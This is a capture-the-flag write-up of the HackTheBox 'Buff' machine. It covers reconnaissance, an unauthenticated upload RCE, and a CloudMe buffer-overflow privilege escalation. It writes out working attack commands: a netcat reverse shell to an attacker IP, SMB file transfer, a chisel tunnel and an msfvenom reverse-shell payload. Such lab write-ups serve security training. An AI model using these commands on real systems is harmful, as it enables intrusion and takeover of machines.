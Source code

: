 # Buff [HTB](https://app.hackthebox.com/machines/263)
![buff-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/buff-01.png)


## Recon 

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 buff.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/ports-02.png)


Let's run a version detection scan againts this port:

```bash
nmap -p 8080 -sCV buff.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nmap-res-03.png)


We have the following:

+ An Apache/2.4.43 server on port 8080.


The nmap probing scripts have identified that the Apache server might have the `CONNECT` HTTP method enabled. This in effect allows the web server to act as a proxy server and make request to other target systems. I tried searching online for possible exploitaion strategies for this method, but I didn't find anything super clear, more theoretical stuff.


Based on the namp probing scripts we can also conclude that the Apache is powered by PHP/7.4.6, and that the target is probably running a Windows OS with an x64-bit architechture. 


### Apache port 8080


If we browse towards `http://buff.htb:8080/` we get the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/site-04.png)


The site seems to be offering gym services, there are four link at the top strip and a sign in form. Each of the four links leads to a different php script in the website's root directory. All of the scripts return read-only informational content, no place to input stuff as users. 


If click the `Contact` button though, we will get the following text:

![cms-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/cms-05.png)


At first I thought this was placed here by the creator of this box as some sort of troll, I didn't think this is an actual CMS. But I searched for this string on Google and I found an Unauthenticated Remote Code Execution exploit [here](https://www.exploit-db.com/exploits/48506). Wow..


In short, the `upload.php` doesn't check for a proper user session, which allows unauthiticated users to upload files. By reveiwing the source of `upload.php`, methods were identified for bypassing the MIME type checks, the file extensions checks, and the content-type checks. 


I tried to find a way to exploit this manaully, but the file upload requiers a dictionary with specific strucutre and objects for it to be accepted by the server. I decided to use the python exploit script instead of finding a way to pull this off with `curl` from the command-line.


After downloading the exploit I run and get a shell:


![shell-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/shell-06.png)


But I didn't like this shell, I wasn't able to perform simple tasks like changing directories. Instead, I decided to transfer a copy of `nc64.exe` over to the target using an SMB server. 


First, I grab a copy of `nc64.exe` to my working directory and start the SMB server on my Kali with:

```bash
impacket-smbserver -smb2support -debug buff .
```

Then, I connect to the SMB server from the target and copy the file over:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\nc64.exe nc.exe
```

![copy-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-07.png)


Now I start my local listener on my Kali with:

```bash
rlwrap nc -lnvp 9009
```

And coonect from the target using:

```cmd
nc.exe -e cmd.exe 10.10.14.54 9009
```

Which gives me a shell:


![nice-shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nice-shell-08.png)


## Privilege Escalation


After landing on the machine I start hunting down quick wins. I list any permissions we have using `whoami /priv` but we don't have any interesting permissions. I look for any stored credentials using `cmdkey /list` but there are none. I also check for the presence of `Always Installed Elevated` vulnerability but I dont find any. 


So I shift gears and start looking around the filesystem, I start with `shaun`'s home directory at `C:\Users\shaun`. Inside the `Downloads` folder I see something interesting:

![downloads-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/downloads-09.png)


I search for this executable online and I find a Buffer-Overflow exploit for it on [ExploitDB](https://www.exploit-db.com/exploits/48389). From what I understand `CloudMe Sync` is a synchronization application which syncs your local storage with the cloud storage, and it is listening on port 8888.


If we list the running processes on the target system with `netstat -ano` we can see the port is open:

![port-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/port-10.png)


The service must run as adminstrator, otherwise the exploit won't help us escalate privileges. I tried to list the running processes on the system in order to make sure this service is actually running as the administrator, but I was deinded access. Even though I wasn't able to make sure the service is running as the admin, I decided to bet on it. 


To try and exploit this, we first need to tunnel the service to our attack machine, I decided to use [chisel](https://github.com/jpillora/chisel).


I download an x64-bit executable chisel client for Windows using [this link](https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz), I extract it with `gunzip -d <archive>`.


Then, I tried to transfer the file using a python web server and downloading it from the target using an `certutil` but I was denied access. I also tried other methods but they all failed. 


So I deicded to try the SMB method again, but when I connect to my share from the netcat shell there are issues establishing the connection. So I decided to use the previous shell we had, which did mange to get files via SMB.


I start the SMB server on my Kali same as before:

```bash
impacket-smbserver -smb2support -debug buff .
```

I connect to the share from the target and download the files:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\chisel.exe C:\Users\shaun\chisel.exe
```

![copy-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-11.png)


And here it is in `shaun`'s home folder:

![found-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/found-12.png)


Now we are ready to setup the tunnel. First, on the Kali, we need to start the server with:

```bash
chisel server -p 8001 --reverse
```

Then, from the target establish the tunnel using:

```cmd
chisel.exe client 10.10.14.54:8001 R:8001:127.0.0.1:8001
```

This will open port 8888 on our Kali, and transfer the traffic from target's localhost:8888 to it. 

![client-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/client-13.png)


After connecting the client, I receive the connetion on the server:

![server-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/server-14.png)


If we list the open ports on our Kali machine, we can see the cleint/server connection is established on port 8001, and the tunnel for port 8888 is open our Kali machine:

![port-14.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/netstat-14.5.png)


With the tunnel established we can try the [exploit](https://www.exploit-db.com/exploits/48389). After downloading it, we need to change the payload for the buffer-overflow, as currently it starts `calc.exe`, which is not super useful.


At first I tried an x64-bit payload, which faild. But an x84 bit payload with the below syntax works:
 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.54 LPORT=9999 -b '\x00\x0A\x0D' -f python
```

![venom-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/venom-15.png)


I copy the entier output and place it in the exploit:

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/exploit-16.png)


I also change the variable names below to match the output from msfvenom:

![vars-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/vars-17.png)


Now I start the local lisetner for the connection:

```bash
rlwrap nc -lnvp 9999
```

And I execute the buffer-opverflow exploit with:

```bash
python buffer-overflow.py
```

The exploit executes with no issues, and on my netcat listener I recieve a shell as the administrator:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/root-18.png)
